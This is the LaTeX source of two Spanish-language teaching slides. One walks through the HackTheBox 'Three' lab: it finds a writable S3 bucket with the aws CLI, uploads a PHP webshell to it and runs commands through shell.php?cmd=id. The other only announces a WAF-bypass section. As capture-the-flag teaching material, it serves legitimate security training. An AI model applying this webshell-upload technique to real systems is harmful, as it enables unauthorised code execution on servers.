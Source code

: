 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{Ejercicio --- Three (HackTheBox): S3 $\rightarrow$ RCE}
\small
  \begin{itemize}
  \item Hacking AWS / Cloud
  \item La máquina
  \item Web 'The Toppers'. En el formulario de contacto aparece el
  \item dominio thetoppers.htb $\rightarrow$ pista de virtual hosting + S3.
  \item Pasos
  \item /etc/hosts: \textless{}ip\textgreater{} thetoppers.htb s3.thetoppers.htb
  \item aws --endpoint=http://s3.thetoppers.htb s3 ls (sin firmar)
  \item El bucket es ESCRIBIBLE $\rightarrow$ subir una webshell PHP:
  \item aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php
  \item s3://thetoppers.htb/
  \item La web sirve el bucket $\rightarrow$ http://thetoppers.htb/shell.php?cmd=id
  \item $\rightarrow$ RCE como www-data. Lección: bucket S3 escribible = RCE.
  \item medium.com/@0x4xel --- HTB Three writeup
  \end{itemize}
\end{frame}

\section{Bypass de WAF y 403}

\begin{frame}[allowframebreaks]{Bypassing WAFs}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Qué es y cómo evadirlo
  \item Técnicas y herramientas
  \end{itemize}
\end{frame}
\end{document}
